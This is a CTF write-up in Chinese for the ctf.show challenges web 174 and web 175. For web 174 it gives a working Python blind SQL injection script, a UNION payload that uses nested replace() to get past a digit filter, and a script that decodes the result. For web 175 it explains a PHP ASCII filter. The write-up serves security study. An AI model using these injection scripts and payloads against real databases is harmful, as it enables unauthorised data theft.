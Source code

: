 ## web 174

方法1 :盲注

通过查询flag的每一位和字符来比较

```python
import requests
import string
flag = ''
table = string.digits + string.ascii_letters + '-{}'
for i in range(1, 45):
    for j in table:
        # url去掉s  接口在网络面板里可以看到
        url = "http://f4b0bf5f-7277-4562-964d-cbe5e5737fb6.challenge.ctf.show/api/v4.php?id="
        payload = '''1' and substr((select password from ctfshow_user4 where username="flag"),{},1)="{}"--+'''.format(i,j)
        r = requests.get(url + payload)
        if "admin" in r.text:
            flag += j
            print(flag)
            break
```

方法2：结果里过滤了数字，使用sql语句里的replace替换成其他字符，查询后再替换回去

payload
```
1'union select replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(hex(password),'1','nba'),'2','nbb'),'3','nbc'),'4','nbd'),'5','nbe'),'6','nbf'),'7','nbg'),'8','nbh'),'9','nbi'),'0','nbj'),'a' from ctfshow_user4 where username='flag'--+
```

还原脚本
```python
nb='nbfnbcnbgnbdnbfnbfnbgnbcnbfnbhnbfFnbgnbgnbgBnbcnbhnbfnbbnbcnbcnbcnbenbfnbbnbfnbenbfnbcnbfnbanbbDnbcnbcnbcnbgnbcnbgnbfnbdnbbDnbcnbdnbcnbbnbfnbfnbcnbhnbbDnbcnbhnbfnbanbfnbdnbcnbdnbbDnbcnbfnbfnbcnbfnbanbfnbbnbcnbgnbcnbhnbcnbenbfnbfnbcnbcnbcnbdnbfnbanbfnbbnbgD'

nb=nb.replace('nba','1').replace('nbb','2').replace('nbc','3').replace('nbd','4').replace('nbe','5').replace('nbf','6').replace('nbg','7').replace('nbh','8').replace('nbi','9').replace('nbj','0')
flag = bytes.fromhex(nb).decode("ascii")
print(flag)
```

## web 175

```php
if(!preg_match('/[\x00-\x7f]/i', json_encode($ret))){
      $ret['msg']='查询成功';
    }
```

这个正则匹配了所有的ascll码，ascll码0-127的字符都被过滤了(字母数字字符)
